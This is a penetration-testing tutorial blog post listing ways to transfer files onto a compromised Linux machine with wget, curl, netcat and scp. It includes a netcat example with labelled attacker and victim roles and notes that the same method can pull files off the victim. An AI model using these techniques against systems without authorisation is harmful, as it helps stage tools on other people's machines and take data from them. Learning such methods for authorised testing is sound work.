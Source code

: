 ```yaml
---
title: "Transfer Files To A Linux Machine"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - tutorial
tags:
  - cybersecurity
  - penetration testing
---
```


This section is pulling from my online notes [here](https://calvin-connor.gitbook.io/hacking-notes/general/transferring-files/transferring-files-to-linux), or at https://calvin-connor.gitbook.io/hacking-notes/.

## Overview

During an engagement, you may find certain tools do not exist, outbound ports have been blocked, and sometimes the machine is just too buggy to transfer your files the only way you know how. For this reason, I find it helpful to have an array of tools at my disposal. I would recommend practicing all the below examples until you know every way you can transfer a file in your specific scenario.

## Wget

```
wget 192.168.1.1:80/example.txt
```

A Linux command-line tool that you can find on most machines you will encounter. Use in conjunction with an HTTP file server in the previous section.

## Curl

```
curl -O http://192.168.1.1:80/example.txt
```

If not told otherwise, curl writes the received data to stdout. It can be instructed to instead save that data into a local file, using the -o, --output or -O, --remote-name options. Use in conjunction with an HTTP file server in the previous section.

## Netcat

```
nc -lvp 5555 > example.txt    //Attacker Machine

nc 192.168.1.1 5555 < example.txt    //Victim Machine
```

This is one of the rare instances where I include how to host the file as well, since Netcat is such a diverse tool and not just for file transfers. The way I remember the direction of arrows is first we need to send > the file and then receive < it. This tool is especially excellent in that you can reverse the order and download a file from the victim instead.

## SSH

```
scp example.txt username@192.168.1.1:/tmp
```

This is more niche as it obviously relies on having SSH credentials. If you are using something like an id_rsa file instead, reflect those changes but keep the scp and :/tmp. The : is not an error here, I have forgotten it too many times. /tmp is whatever directory on the victim you want to transfer the file to.
